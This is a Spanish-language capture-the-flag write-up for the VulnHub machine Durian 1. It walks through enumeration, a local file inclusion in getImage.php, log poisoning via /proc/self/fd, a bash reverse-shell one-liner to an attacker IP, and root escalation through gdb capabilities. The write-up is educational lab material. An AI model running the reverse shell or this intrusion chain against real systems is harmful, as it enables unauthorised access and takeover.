 #ctf-machine #vulnhub #easy-machine #linux [Vulnhub Link](https://www.vulnhub.com/entry/durian-1,553/)

## Enumeración inicial
Como no conocemos la dirección IP de la máquina víctima, hacemos un escaneo ARP con `arp-scan`:
![[Pasted image 20240904155436.png]]

Como vemos la IP es la "192.168.159.152", ya que si nos fijamos, el OUI de la dirección MAC es "00:0c" correspondiente a las máquinas que se importan en VMWare.

Lanzamos una traza ICMP con `ping` y como el TTL es 64 podemos decir que probablemente se trate de una máquina Linux, ya que suelen tener este valor de TTL:
![[Pasted image 20240904155638.png]]

### Nmap
Hacemos un primer escaneo con `nmap` para identificar los puertos TCP abiertos de la máquina víctima:
![[Pasted image 20240904160248.png]]

Como vemos, hay cuatro puertos abiertos, el puerto 22, 80, 7080 y 8088.

Hacemos un segundo escaneo con `nmap` para detectar la versión y servicio que corren para cada uno de estos puertos abiertos:
![[Pasted image 20240904160652.png]]
![[Pasted image 20240904160719.png]]
![[Pasted image 20240904160751.png]]

## Enumeración web
Si accedemos a la web que corre por el puerto 80 vemos lo siguiente:
![[Pasted image 20240904161152.png]]


Como vemos no hay nada interesante, así que hacemos *fuzzing* con `gobuster` para encontrar directorios y como vemos, encontramos un directorio `/blog` y `/cgi-data`:
![[Pasted image 20240904161901.png]]

## LFI
Si accedemos a `/cgi-data/`, vemos lo siguiente:
![[Pasted image 20240904163632.png]]

Como vemos tenemos capacidad de *directory listing* además de que hay un archivo llamado "getImage.php", que si accedemos a él vemos:
![[Pasted image 20240904163730.png]]

Parece ser que se está utilizando el parámetro "file" para incluir archivos por lo que podemos acontecer un LFI:
![[Pasted image 20240904163824.png]]

Si intentamos apuntar a algún *log*, vemos que no podemos hacerlo. Por lo que podemos apuntar a `/proc/self/fd/` y hacemos *fuzzing* para encontrar contenido interesante con `burpsuite` y su funcionalidad *intruder*, vemos lo siguiente:
![[Pasted image 20240904171054.png]]

Si nos fijamos en el *fd* número 8, vemos los *logs* de la web, por lo que podemos acontecer un *Log* *poisoning*.
![[Pasted image 20240904171206.png]]

Así que hacemos una solicitud con curl a la web con un User-Agent malicioso con este código PHP:
![[Pasted image 20240904172545.png]]

Una vez realizada la solicitud, accedemos al recurso y añadimos el comando "cmd" en la URL para ejecutar comandos:
![[Pasted image 20240904172715.png]]

Por lo que si utilizamos el parámetro "cmd" para ejecutar este comando:
```bash
bash -c "bash -i >& /dev/tcp/192.168.159.131/443 0>&1"
```

Y nos ponemos en escucha con `nc` por el puerto 443, obtenemos una *reverse shell*:
![[Pasted image 20240904172916.png]]

Por lo que hacemos el tratamiento de la TTY: 
![[Pasted image 20240904173025.png]]
![[Pasted image 20240904173118.png]]

## Escalada de privilegios
Si mostramos las *capabilities* de los binarios del sistema, vemos que el binario `gdb` tiene la siguiente *capability*:
![[Pasted image 20240904173859.png]]

De la cual forma si ejecutamos el siguiente comando, podemos obtener una "bash" como *root*:
![[Pasted image 20240904174018.png]]

Y visualizar la *flag* del directorio `/root`:
![[Pasted image 20240904174050.png]]

___
#local-file-inclusion #abusing-capabilities #web-enumeration #log-poisoning 
___